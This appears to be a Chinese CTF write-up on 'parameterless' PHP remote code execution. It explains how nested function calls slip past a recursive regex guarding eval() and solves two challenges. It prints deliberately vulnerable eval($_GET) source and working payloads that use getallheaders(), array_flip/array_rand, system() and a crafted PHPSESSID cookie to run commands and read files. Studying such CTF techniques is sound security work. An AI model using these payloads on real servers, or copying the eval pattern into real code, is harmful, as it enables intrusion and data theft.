 ```yaml
---
title: "无参数RCE"
subtitle: ""

description: ""
date: 2024-03-07T18:13:51+08:00
draft: false

tags: ["RCE"]
categories: ["Bypass"]

---
```


一个很有趣的RCE姿势

## 核心代码

```php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
}
```

关键点在于`('/[^\W]+((?R)?\`这个正则表达式，改表达式替换后，每个函数内的参数都会被匹配

## 相关函数

### 基本操作

- `scandir()`：返回当前目录中所有的文件和目录，结果是一个数组

- `current()`与`pos()`：返回当前数组中的值（默认第一个）

- `localeconv()`：返回本地数字及货币信息的数组（该数组的第一项是`.`，可以与`scandir`配合使用）

- `getallheaders()`：获取所有请求头信息，并返回键值对

- `strrev()`：返回反转后的字符串

- `eval()`、`assert()`、`system`：命令执行

- `highlight_file()`、`show_source()`、`read_file()`、`readgzfile`：读取文件内容

- `getenv()`：获取环境变量（php7.1版本以上）

- `get_defined_vars()`：返回由已定义变量所组成的多维数组

### 数组操作

- `end()`：内部指针指向数组中最后一个元素并输出

- `next()`：指向下一个元素并输出

- `prev()`：指向上一个元素并输出

- `reset()`：指向数组中第一个元素并输出

- `each()`：返回当前元素的键名和键值，并将内部指针向前移动

- `array_rand()`：随机返回一个键名

- `array_flip()`：交换数组中的键与值，返回交换后的数组

- `array_reverse()`：以相反的顺序返回数组内容

- `array_shift()`：删除数组中的第一个元素并返回被删除的值

- `array_pop()`：删除数组中的最后一个元素并返回被删除的值

- `implode()`：用于将数组转化为字符串，让`echo`或`printf`得以输出结果

### 目录操作

- `getcwd()`：获取当前工作目录

- `chdir()`：改变当前的目录

- `dirname()`：对路径作操作，返回去掉文件名后的目录名（如`/test/index.php`返回`/test`）

举个栗子：`scandir('.')`用于返回当前目录，在无法传参数的情况下，可以用`localeconv()`构造一个`.`，再用`current()`返回`.`给`scandir()`即可

> ?payload=var_dump(scandir(current(localeconv())));

## 相关例题

### getallheaders()

- 题目来源：2023NewStarCTF-R!!C!!E!!

源码如下

```php
<?php  
highlight_file(__FILE__);  
if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['star'])) {  
    if(!preg_match('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i',$_GET['star'])){  
        eval($_GET['star']);  
    }  
}
```

这题用到了`getallheaders()函数`，用于获取当前所有的请求头信息，但只允许在Apache环境下使用，在php7以上的版本可以用`apache_request_headers()`代替

本题思路是在请求头中添加我们要执行的系统命令，用`getallheaders()`获取所有的请求头信息，接着用`array_flip()`与`array_rand()`来调换与获取键值对，最后用`system()`来执行命令

payload

```
# parmas
?star=system(array_rand(array_flip(getallheaders())));

# headers
flag: cat /f*
```

> 由于`array_rand()`是随机获取的，因此可以删除部分请求头来提高成功率

### session_id()

- 题目来源：BUUCTF-禁止套娃

源码如下

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

并没有过滤`scandir()`，先看一下目录下的文件

exp

```
?exp=var_dump(scandir(current(localeconv())));
```

放包后得到结果，可以看到flag.php位于数组第四个位置

![](/img/无参数RCE/2024-03-07-18-50-31-image.png)

有三种解法，其一是利用`array_reverse()`与`next()`来对数组进行操作，再用`show_source()`之类的函数进行读取；其二是用`getallheaders()`；其三便是`session_id()`

前面也讲到，倘若中间件不是Apache，`getallheaders()`便无法使用，这里介绍下`session_id()`的使用

将恶意代码写到cookie的PHPSESSID中，再利用`session_id()`读取，之后便可以用其他函数来实现命令执行。但是`session_id()`需要开启session才能使用，因此在此之前还需要用`session_start()`来开启session服务

payload

```
# parmas
?exp=show_source(session_id(session_start()));

# headers
Cookie: PHPSESSID=flag.php
```